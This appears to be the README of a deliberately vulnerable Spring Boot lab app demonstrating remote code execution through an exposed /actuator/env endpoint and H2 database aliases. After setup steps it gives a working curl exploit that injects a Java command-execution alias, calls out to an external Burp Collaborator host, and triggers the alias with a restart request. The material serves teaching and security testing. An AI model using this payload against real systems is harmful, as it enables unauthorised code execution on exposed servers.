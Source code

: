 # Spring Boot Actuator H2 RCE

## Introduction

Writeup: [Remote Code Execution in Three Acts: Chaining Exposed Actuators and H2 Database Aliases in Spring Boot 2](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database)

This is a sample app based off the default Spring Boot app in Spring's [documentation](https://spring.io/guides/gs/spring-boot-docker/) that demonstrates how an attacker can achieve RCE on an instance with an exposed `/actuator/env` endpoint and a H2 database.

## Usage

First, start the app. You can do this locally or with Docker.

### Local
If you run this locally, you need JDK 1.8 or later and Maven 3.2+.

`./mvnw package && java -jar target/gs-spring-boot-docker-0.1.0.jar`

### Docker

1. `sudo docker build -t spaceraccoon/spring-boot-rce-lab .`
2. `sudo docker run -p 8080:8080 -t spaceraccoon/spring-boot-rce-lab`

The app is now running on `localhost:8080`.

### Exploit

1. (Modify the curl request accordingly) `curl -X 'POST' -H 'Content-Type: application/json' --data-binary $'{\"name\":\"spring.datasource.hikari.connection-test-query\",\"value\":\"CREATE ALIAS EXEC AS CONCAT(\'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new\',\' java.util.Scanner(Runtime.getRun\',\'time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }\');CALL EXEC(\'curl  http://x.burpcollaborator.net\');\"}' 'http://localhost:8080/actuator/env'`
2. `curl -X 'POST' -H 'Content-Type: application/json' 'http://localhost:8080/actuator/restart'`

You will receive a pingback.
